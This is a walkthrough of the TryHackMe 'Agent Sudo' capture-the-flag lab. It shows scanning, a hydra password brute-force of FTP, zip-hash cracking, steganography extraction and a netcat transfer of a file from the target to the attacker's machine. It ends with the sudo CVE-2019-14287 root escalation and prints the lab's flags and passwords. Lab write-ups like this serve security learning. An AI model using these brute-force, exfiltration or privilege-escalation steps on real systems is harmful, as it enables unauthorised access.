 ```yaml
---
tagline: agentsudo
title: Agent Sudo - Writeup
description: Mom, I think there are aliens outside...
banner: /blog/agentsudobanner.jpeg/
banner_alt: better late than never, better late than never
date: '2024-03-4'
---
```


## Nmap

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.137.85
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 22:53 EST
Nmap scan report for 10.10.137.85
Host is up (0.094s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.10 seconds
```

- 3 open ports

## Enumerate cont'd

- To redirect to the secret page, we need to modify the **user-agent** using cURL. I used the command ```curl -A <useragent> 10.10.137.85 -L``` and trying *R* as a user agent shows this.

![Image showing result of R](/blog/agentsudopics/useragentcurl.png 'Fig.1')

- When we try C we get this

![Image showing result of C](/blog/agentsudopics/chris.png 'Fig.2')

- Now we know his name is chris and that his password is weak (not actually weak)

## Hash cracking and brute-force

- I cracked the FTP Password using this command ```hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.194.92 -V```

![Image showing ftp cracked](/blog/agentsudopics/ftpcracked.png 'Fig.3')

- Next is logging into the ftp server with ```ftp user@ip```. Inside we find a txt file that reads

```txt:Text Editor
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- Lets also ```get``` the other images. Inside *cutie.png*, we find a zip file (binwalk'ed) that is password protected.

```bash:Terminal
┌──(vipin㉿vipin)-[~/Downloads]
└─$ zip2john 8702.zip > 8702.hash
                                                                                                      
┌──(vipin㉿vipin)-[~/Downloads]
└─$ john 8702.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 ASIMD 4x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:02 DONE 2/3 (2024-03-04 21:35) 0.4975g/s 22230p/s 22230c/s 22230C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- Inside the zip file was a txt file named *To_agentR.txt* which says this

```txt:Text Editor
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

- It seem like the text is in base64

```bash:Terminal
┌──(vipin㉿vipin)-[~/Downloads]
└─$ echo 'QXJlYTUx' | base64 -d
Area51           
```

- Now that we have the steg password lets extract text the other image

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ steghide --extract -p Area51 -sf cute-alien.jpg
wrote extracted data to "message.txt".

┌──(vipin㉿vipin)-[~]
└─$ cat message.txt                                                                   
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

- Thats a LOT of information, enough to get us to the next section.

## Capture the user flag

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ ssh james@10.10.194.92                         
The authenticity of host '10.10.194.92 (10.10.194.92)' can't be established.
ED25519 key fingerprint is SHA256:rt6rNpPo1pGMkl4PRRE7NaQKAHV+UNkS9BfrCy8jVCA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.194.92' (ED25519) to the list of known hosts.
james@10.10.194.92's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar  5 02:49:58 UTC 2024

  System load:  0.0               Processes:           92
  Usage of /:   39.7% of 9.78GB   Users logged in:     0
  Memory usage: 31%               IP address for eth0: 10.10.194.92
  Swap usage:   0%


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
```

- Now for the next question, utilizing netcat I transfered the file to my vm

```bash:Terminal
james@agent-sudo:~$ nc -w 5 10.6.22.229 6969 < /home/james/Alien_autospy.jpg

# on another window

┌──(vipin㉿vipin)-[~/Desktop]
└─$ nc -lvnp 6969 > Alien_autopsy.jpg
```

- Now using google search, we find this various results but no fox news, but using the other articles I learned that some guy named Roswell faked an alien autopsy which gives us the answer *roswell alien autopsy*.

## Privilege escalation

> "ITS TIMEEEE, THE BEST TIMEEEE!!!!!"

- We start by running ```find / -uid 0 -perm -4000 -type f 2>/dev/null``` to find exploitable SUID Binaries and sudo seems to be one.

```bash:Terminal
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

- A little searching find us [this](https://www.exploit-db.com/exploits/47502) exploit which tells us the CVE(CVE-2019-14287) & how to privilege escalate!

```bash:Terminal
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cat /root/root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

### MACHINE PWN'ED 😎

![My Tryhackme badge yuh](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)
